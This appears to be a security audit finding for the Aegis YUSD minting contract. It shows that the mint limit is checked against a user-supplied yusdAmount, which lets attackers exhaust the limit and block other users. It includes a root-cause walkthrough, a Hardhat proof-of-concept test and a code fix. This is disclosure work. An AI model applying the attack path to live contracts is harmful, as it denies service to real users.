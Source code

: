 Funny Silver Lobster

High

# attackers could intentionally created mint orders with large 'yusdAmount' to DoS mint process

### Summary

'mintLimit' is used to check if minted yusd amount has exceeded limit in current period, however, while check for mint limit, order.yusdAmount is used instead of actual minted yusd amount. Then, attackers could intentionally created mint orders with large 'yusdAmount' to make minted yusd amount in current period nearly to 'currentPeriodTotalAmount' , caused other mint orders fail due to mint limit check failure.

### Root Cause

[https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L250](url)

During the process of AegisMinting.sol#mint(),  order.yusdAmount is used to mint limit check.

    _checkMintRedeemLimit(mintLimit, order.yusdAmount);

 order.yusdAmount is a input parameter for mint order, which will be quite large.  Then order.collateralAsset, order.collateralAmount, order.yusdAmount will be used to calculate the actual yusdAmount , based on current price.

    uint256 yusdAmount = _calculateMinYUSDAmount(order.collateralAsset, order.collateralAmount, order.yusdAmount);

    function _calculateMinYUSDAmount(address collateralAsset, uint256 collateralAmount, uint256 yusdAmount) internal view returns (uint256) {
    (uint256 chainlinkPrice, uint8 feedDecimals) = _getAssetUSDPriceChainlink(collateralAsset);
    if (chainlinkPrice == 0) {
      return yusdAmount;
    }

    uint256 chainlinkYUSDAmount = Math.mulDiv(
      collateralAmount * 10 ** (18 - IERC20Metadata(collateralAsset).decimals()),
      chainlinkPrice,
      10 ** feedDecimals
    );

    // Return smallest amount
    return Math.min(yusdAmount, chainlinkYUSDAmount);
  }

We can see that, returned yusdAmount of _calculateMinYUSDAmount() is the min of chainlinkYUSDAmount and order.yusdAmount, if order.yusdAmount is very large, minted yusd amount will be chainlinkYUSDAmount. However, mintLimit.currentPeriodTotalAmount will be updated based on order.yusdAmount.

### Internal Pre-conditions

none

### External Pre-conditions

none

### Attack Path

1, attackers create a mint order with ordinary parameters except large 'yusdAmount', which is nearly to mintLimit.currentPeriodTotalAmount.
2, users try to mint yusd from assets, will always revert due to mint limit check.

### Impact

Attackers could intentionally created mint orders with large 'yusdAmount' to DoS mint process, attackers could consume quite a small amount of assets to take out this DoS attack.

### PoC

add the following code to  test/5_aegis_minting_mint.spec

`
    
    it('should revert due to large yusdAmount', async () => {
        const [owner, sender] = await ethers.getSigners()

        const { aegisMintingContract, aegisMintingAddress, assetContract, assetAddress, aegisConfig } = await loadFixture(deployFixture)

        await aegisConfig['whitelistAddress(address,bool)'](sender, true)

        await assetContract.mint(sender.address, ethers.parseEther('100'))
        await assetContract.connect(sender).approve(aegisMintingAddress, ethers.parseEther('100'))

        // Set limits
        const mintMaxAmount = ethers.parseEther('20')
        await aegisMintingContract.grantRole(SETTINGS_MANAGER_ROLE, owner)
        await aegisMintingContract.setMintLimits(60, mintMaxAmount)

        const collateralAmount = ethers.parseEther('10')
        const yusdAmountLarge = ethers.parseEther('19.99')
        const yusdAmountNormal = ethers.parseEther('9.99')
		
        const blockTime = await time.latest()
		//create order with large yusdAmount
        const order = {
          orderType: OrderType.MINT,
          userWallet: sender.address,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmount,
          yusdAmount: yusdAmountLarge,
          slippageAdjustedAmount: yusdAmountNormal,
          expiry: blockTime + 10000,
          nonce: Date.now(),
          additionalData: encodeString(''),
        }
        const signature = await signOrder(order, aegisMintingAddress)

        const mintLimitBefore = await aegisMintingContract.mintLimit()

        await expect(aegisMintingContract.connect(sender).mint(order, signature)).to.be.not.reverted

        const mintLimitAfter = await aegisMintingContract.mintLimit()
		
		//create aother order
		const order1 = {
          orderType: OrderType.MINT,
          userWallet: sender.address,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmount,
          yusdAmount: yusdAmountNormal,
          slippageAdjustedAmount: yusdAmountNormal,
          expiry: blockTime + 10000,
          nonce: Date.now(),
          additionalData: encodeString(''),
        }
        const signature1 = await signOrder(order1, aegisMintingAddress)

        await expect(aegisMintingContract.connect(sender).mint(order1, signature1)).to.be.reverted
      })
`

### Mitigation

when check for mint limit, use actual 'yusdAmount' instead of 'order.yusdAmount'.

`
      
     function mint(
      OrderLib.Order calldata order,
      bytes calldata signature
    ) external nonReentrant onlyWhitelisted(order.userWallet) onlySupportedAsset(order.collateralAsset) {
    if (mintPaused) {
      revert MintPaused();
    }
    if (order.orderType != OrderLib.OrderType.MINT) {
      revert InvalidOrder();
    }
 
    //by audit zhanmingjing, don't check with order.yusdAmount
    //_checkMintRedeemLimit(mintLimit, order.yusdAmount);
    order.verify(getDomainSeparator(), aegisConfig.trustedSigner(), signature);
    _deduplicateOrder(order.userWallet, order.nonce);

    uint256 yusdAmount = _calculateMinYUSDAmount(order.collateralAsset, order.collateralAmount, order.yusdAmount);
    if (yusdAmount < order.slippageAdjustedAmount) {
      revert PriceSlippage();
    }

    //by audit zhanmingjing, check with actual yusdAmount 
    _checkMintRedeemLimit(mintLimit, yusdAmount );
    // Take a fee, if it's applicable
    (uint256 mintAmount, uint256 fee) = _calculateInsuranceFundFeeFromAmount(yusdAmount, mintFeeBP);
    if (fee > 0) {
      yusd.mint(insuranceFundAddress, fee);
    }

    IERC20(order.collateralAsset).safeTransferFrom(order.userWallet, address(this), order.collateralAmount);
    yusd.mint(order.userWallet, mintAmount);
    _custodyTransferrableAssetFunds[order.collateralAsset] += order.collateralAmount;

    emit Mint(_msgSender(), order.collateralAsset, order.collateralAmount, mintAmount, fee);
  }
`